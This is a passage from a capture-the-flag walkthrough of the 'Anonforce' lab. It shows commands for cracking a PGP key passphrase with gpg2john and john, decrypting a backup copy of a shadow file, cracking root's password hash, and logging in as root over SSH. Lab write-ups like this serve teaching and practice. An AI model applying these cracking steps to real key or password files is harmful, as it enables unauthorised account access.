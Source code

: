 After downloading them, we should use `private.asc` to decrypt `backup.pgp`, but first we should crack the password of the key. I used an addintional tool called `gpg2john` to change the format, to a crackable format for `john`. Then I started cracking it using rockyou wordlist. You can see the steps bellow:

~~~
$ gpg2john private.asc > key.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt key.hash
~~~

The password for the key: `xbox360`

Now that we have the password for the key, we can decrypt the pgp file. Follow the steps:

~~~
$ gpg --import private.asc
~~~

Now you enter the password, then:

~~~
$ gpg --decrypt-file backup.pgp
~~~

Then you enter the password again and the backup file is decrypted.

### Cracking Password Hashes

After taking a look at the content of this file, I realized that it is a copy of the `shadow` file which keeps the password hashes in a linux machine. We have the password hashes for the root and the user `melodias`. Let's try to crack them using john and rockyou wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Anonforce/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup  
Warning: only loading hashes of type "sha512crypt", but also saw type "md5crypt"
Use the "--format=md5crypt" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hikari           (root)
1g 0:00:00:04 DONE (2021-10-24 06:53) 0.2159g/s 1548p/s 1548c/s 1548C/s 111111111111111..droopy
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

root's password: `hikari`

Amazing! We have root's password, so we can directly connect to the target machine as root.

## Root Flag

Let's connect to the machin via SSH and read the root flag:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Anonforce/files]
└─$ ssh root@$IP
root@10.10.147.174's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

~~~